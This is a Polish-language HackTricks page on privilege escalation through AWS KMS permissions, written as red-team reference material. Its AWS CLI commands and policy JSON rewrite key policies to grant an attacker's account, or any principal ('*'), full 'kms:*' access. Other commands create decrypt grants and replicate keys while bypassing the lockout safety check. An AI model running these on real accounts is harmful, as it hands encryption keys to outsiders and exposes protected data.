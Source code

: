 # AWS - KMS Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## KMS

Aby uzyskać więcej informacji o KMS, sprawdź:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

Dzięki tym uprawnieniom można **zmodyfikować uprawnienia dostępu do klucza**, aby mogły być używane przez inne konta lub nawet przez każdego: 

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
{% endcode %}

policy.json:
```json
{
"Version" : "2012-10-17",
"Id" : "key-consolepolicy-3",
"Statement" : [
{
"Sid" : "Enable IAM User Permissions",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<origin_account>:root"
},
"Action" : "kms:*",
"Resource" : "*"
},
{
"Sid" : "Allow all use",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : [ "kms:*" ],
"Resource" : "*"
}
]
}
```
### `kms:CreateGrant`

Pozwala **podmiotowi na użycie klucza KMS:**
```bash
aws kms create-grant \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
--grantee-principal arn:aws:iam::123456789012:user/exampleUser \
--operations Decrypt
```
{% hint style="warning" %}
Grant może pozwalać tylko na określone typy operacji: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
Zauważ, że może minąć kilka minut, zanim KMS **pozwoli użytkownikowi na użycie klucza po wygenerowaniu grant**. Po upływie tego czasu, podmiot może używać klucza KMS bez potrzeby określania czegokolwiek.\
Jednakże, jeśli potrzebne jest natychmiastowe użycie grantu [użyj tokena grantu](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (sprawdź poniższy kod).\
Dla [**więcej informacji przeczytaj to**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).
{% endhint %}
```bash
# Use the grant token in a request
aws kms generate-data-key \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
–-key-spec AES_256 \
--grant-tokens $token
```
Zauważ, że możliwe jest wylistowanie uprawnień kluczy za pomocą:
```bash
aws kms list-grants --key-id <value>
```
### `kms:CreateKey`, `kms:ReplicateKey`

Dzięki tym uprawnieniom możliwe jest replikowanie klucza KMS włączonego w wielu regionach w innym regionie z inną polityką.

Zatem atakujący mógłby to wykorzystać, aby uzyskać dostęp do klucza i go użyć. 

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% endcode %}

### `kms:Decrypt`

To uprawnienie pozwala na użycie klucza do odszyfrowania informacji.\
Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
